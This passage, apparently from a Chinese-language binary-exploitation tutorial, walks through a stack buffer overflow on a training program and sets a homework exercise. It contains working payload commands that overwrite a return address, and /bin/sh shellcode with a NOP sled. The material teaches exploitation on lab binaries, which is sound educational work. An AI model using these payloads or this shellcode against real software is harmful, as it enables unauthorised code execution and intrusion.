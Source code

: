 ```
 80484b0:    50                       push   %eax
 80484b1:    68 a0 85 04 08           push   $0x80485a0
 80484b6:    e8 b5 fe ff ff           call   8048370 <__isoc99_scanf@plt>
```

​	这段指令的操作是：把ebp减去0x12 这个地址push进栈中，然后调用`scanf`，这操作就是要接受输入（ebp-0x12是作为scanf的其中一个参数，具体 man scanf）
我们都知道内存里面的栈帧中有一段是buffer，用来接收输入的，而我们的payload就是要注入到buffer里的，
进制转换 base16(12) == base10(18) 在这个例子中我们可以知道buffer接收输入的起始点距离ebp的地址有18个bytes

​	最后，我们来制作我们的payload（如果你看了不理解为什么payload像下面这样拼接的话，建议你区review上面那个函数调用时栈的结构图）

```echo -e `python -c 'print "A"*18+<Dummay valur for EBP>+<Return address>'` | ./first ```

​	用看起来像下面这样的代码生成payload并传入程序中执行:

```shell
echo -e `python -c 'import struct;print "A"*18+"BBBB"+struct.pack("<I", 0x0804848b )'` | ./first 
Hello ji AAAAAAAAAAAAAAAAAABBBB?
How come you entered into bar ?
Segmentation fault (core dumped)
```

:smile: 我们成功利用了bof漏洞




####  :smile:  作业：尝试解决 exploit\_me\_2.c `Shellcode injection`
* 禁用ASLR
* 使用GDB定位到buffer的起始地址
* 构造栈溢出，把返回地址设为buffer的起始地址
* 在buffer中包含你的shellcode
看起来就像下面这样：
```bash
./second `python -c 'import struct;shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"; bufferlen=108; print shellcode+"\x90"*(bufferlen-len(shellcode))+"BBBB"+struct.pack("<I", starting address of the buffer)'`
```

